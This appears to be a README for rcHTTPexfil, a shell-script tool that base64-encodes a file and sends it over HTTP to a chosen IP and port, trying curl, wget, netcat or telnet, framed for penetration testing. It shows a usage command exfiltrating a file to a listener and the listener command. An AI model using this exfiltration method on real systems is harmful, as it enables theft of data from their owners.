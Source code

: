 #######################################################################

Red Crow Labs 

#######################################################################
DESCRIPTION: 

rcHTTPexfil is a shell script which takes in a text file, base64 encodes it, and attempts to transmit it to a specified IP and Port using HTTP. This tool tries various methods for transmitting including curl, wget, netcat, and telnet.

This is a basic and insecure data exfiltration tool which is useful when doing testing on a system and there is a need to copy data from it to a central host for analysis.

========================================================================= INSTALL:
INSTALLATION:

git clone https://github.com/redcrowlab/rcHTTPexfil.git

========================================================================= USAGE:
USAGE:

chmod 755 rcHTTPexfil.sh
./rcHTTPexfil.sh [filename] [URL] [Port]

example:

./rcHTTPexfil.sh surveyData.txt http://192.168.1.10 8080

On the listener side do:

python rcHTTPexfilListener.py 192.168.1.10 8080

========================================================================= NOTE:

NOTE: Requires python on the listener host and curl, wget, netcat, or telnet on the transmitting host.
